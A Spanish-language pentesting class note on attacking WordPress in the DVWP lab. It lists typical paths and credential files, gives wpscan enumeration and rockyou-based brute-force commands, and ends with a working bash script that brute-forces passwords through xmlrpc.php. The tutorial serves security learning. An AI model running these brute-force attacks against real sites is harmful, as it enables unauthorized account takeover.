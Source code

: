 # WordPress

Tags: #WordPress #CMS 

## Enumeración de gestores de contenido (CMS) – WordPress

WordPress es un CMS de código abierto muy popular que fue lanzado en 2003. Es utilizado por millones de sitios web en todo el mundo y se destaca por su facilidad de uso y flexibilidad. Con WordPress, los usuarios pueden crear y personalizar sitios web sin necesidad de conocimientos de programación avanzados. Además, cuenta con una amplia variedad de plantillas y plugins que permiten añadir funcionalidades adicionales al sitio.

El proyecto que utilizamos en esta clase para enumerar un WordPress es el siguiente:

-   **DVWP**: [https://github.com/vavkamil/dvwp](https://github.com/vavkamil/dvwp)

Una de las herramientas que utilizamos en esta clase para enumerar este gestor de contenido es **Wpscan**. Wpscan es una herramienta de código abierto que se utiliza para escanear sitios web en busca de vulnerabilidades de seguridad en WordPress.

Con Wpscan, podemos realizar una enumeración completa del sitio web y obtener información detallada sobre la instalación de WordPress, como la versión utilizada, los plugins y temas instalados y los usuarios registrados en el sitio. También nos permite realizar pruebas de fuerza bruta para descubrir contraseñas débiles y vulnerabilidades conocidas en plugins y temas.

Wpscan es una herramienta muy útil para los administradores de sitios web que desean mejorar la seguridad de su sitio WordPress, ya que permite identificar y corregir vulnerabilidades antes de que sean explotadas por atacantes malintencionados. Además, es una herramienta fácil de usar y muy efectiva para identificar posibles debilidades de seguridad en nuestro sitio web.

## Rutas típicas de WordPress en la web 

```python
/wp-login.php                        # Es la ruta del panel de autenticación 
/wordpress/wp-login.php
/wp-admin.php                        # Es la ruta del panel de autenticación de admin
/wp-admin/
/wp-json/wp/v2/users/                # Reporta usuarios validos en la pagina de WordPress en formato Json
/wp-content/plugins                  # Ver si podemos hacer 'directory listing' y ver los plugins existentes
/xmlrpc.php                          # Si esta expuesto, podemos enumerar usuarios 
```

## Ruta típica en consola

```python 
/var/www/html/                 # Ruta donde se encuentra 'phpinfo.php | wordpress | index.html'

# Archivos que se encuentran en 'admin', este tiene la configuracion del 'phpadmin'

# Archivos que se enecuentran dentro del directorio 'WordPress'
wordpress.conf                 # Archivo con configuracion del WordPress y se encuentra en /etc/apache2/sites-enabled/ 
wp-config.php                  # Archivo con credenciales de acceso a la DB, se encuentra en /var/www/html, o en la ruta /usr/share/wordpress/ y contiene todas las configuraciones de Wordpress
wp-settings.php                # Se encarga de hacer la subida de los plugins


/wp-admin/                     # Directorio que contiene el formulario y se encuentra en /var/www/html/wordpress/ 
/wp-content/                   # Directorio que contiene los 'plugins, themes'
Nota: No se cuenta el 'index.php' como tema o plugin, ademas, si existe un 'plugin' que puede ser vulnerable, lo podemos explotar con 'Metasploit'
```
 
## WordPress Enumeración 

```bash 
# Enumeración
1. Buscar usuarios en la pagina Web y validarlos en el 'Panel de Login'
2. Buscar credenciales por defecto para WordPress
3. Enumeracion de directorios 'Dirb, Gobuster, etc...'
4. Usar 'Whatweb' para ver la version del WordPress
5. Aunque tengamos la utlima version de 'WordPress' mientras tenga 'Plugins' desactualizados, será vulnerable 
6. Buscar 'plugins' en el codigo fuente o usando el comando 'curl'
7. Usar Wpscan para enumeracion de 'usuarios, passwords, plugins'
8. Fuerza bruta a la password de los usuarios con 'Hydra' con caracteres especiales del 'panel de login'
```

```bash
❯ wpscan --url ❮http://IP/❯                               # Detecta vulnerabilidades en un wordPress
```

```bash
❯ wpscan --url http://URL/wordpress -e u,vp               # Enumeracion de usuarios y plugins vulnerables 

	# e = Enumerar multiples cosas 
	# u = Enumerar usuarios
	# vp = Enumerar plugins vulnerables

❯ wpscan --url http://URL/ --passwords /usr/share/wordlists/rockyou.txt       # BruteForce 

	# passwords = Enumerar passwords a todos los usuarios que encuentre la herramienta

❯ wpscan --url <http://URL/> -e u,vp --plugins-detection aggressive           # Enumeracion de plugins de manera agresiva 
	
	# plugins-detection = Enumeracion de plugins (mixed, passive, aggressive)
```

El **API Token** lo podemos descargar registrándonos desde la siguiente url:
* [API-Token](https://wpscan.com/register)

```bash
❯ wpscan --url <http://URL/> -e vp --api-token="DFFGB15GD68DG618GD81GRD"     # Enumeracion 

	# vp = Enumerar plugins vulnerables
	# api-token = Nos representa de mejor manera las vulnerabilidades con el API Token
```

```bash
❯ wpscan --url <http://IP/> -U <USER> -P /usr/share/wordlists/rockyou.txt # Fuerza bruta cuando tenemos un usuario valido

	# P = Ruta del diccionario 
	# U = Usuario valido
```

```bash
❯ curl -s -X GET "http://IP/" | grep -oP 'plugins/\k[^/]+' | sort -u # Filtramos por plugins en la pagina web y ver si alguno es vulnerable y lo podriamos buscar en Searchsploit

	# \K = Quita la palabra de la izquierda (plugins) 
	# [^/]+ = Muestra hasta la primer barra derecha en la busqueda y quita todo lo de la derecha   
	# sort u = Quitar los resultados repetidos y dejar los 'unicos'
	# s = Modo silencioso 
```

## Abusando de xmlrpc.php

Si esta expuesto, podemos enumerar credenciales validas y solo acepta peticiones por **POST** y que este estructurada en **XML**
* Debemos de listar los métodos y lo haremos con el código del archivo y ver si existe el siguiente **wp.getUsersBlogs** y después aplicar fuerza bruta
* [Xmlrpc-Abuse](https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/)

```bash
❯ curl -s -X POST "http://IP/xmlrpc.php" -d@file.xml   # Forma de tramitar el archivo por POST

	# d@ = Indicamos el archivo que usaremos y es que esta abajo 
```

```bash
# Listamos los métodos en 'xmlrpc.php'

❯ nvim file.xml

	<?xml version="1.0" encoding="utf-8"?> 
	<methodCall> 
	<methodName>system.listMethods</methodName> 
	<params></params> 
	</methodCall>
```

```bash 
# Creamos un archivo llamado 'xmlrpc_bruteforce.sh' para hacer el ataque 'Brute force' y enumerar 

#!/bin/bash 

function ctrl_c(){
	echo -e "\n\n[!] Saliendo...\n"
	tput cnorm; exit 1
}

# Ctrl_c
trap ctrl_c INT

tput civis

function createXML(){
	password=$1

	xmlFile="""
	<?xml version=\"1.0\" encoding=\"UTF-8\"?>
	<methodCall> 
	<methodName>wp.getUsersBlogs</methodName> 
	<params> 
	<param><value>omar</value></param> 
	<param><value>$password</value></param> 
	</params> 
	</methodCall>
	"""
	echo $xmlFile > file.xml
	response=$(curl -s -X POST "http://IP/xmlrpc.php" -d@file.xml)

	if [ ! "$(echo $response | grep 'Incorrect username or password.')" ]; then 
		echo -e "\n[+] La contraseña para el usuario omar es $password"
		echo 0
	fi
}

cat /usr/share/wordlists/rockyou.txt | while read password; do 
	createXML $password
done 
```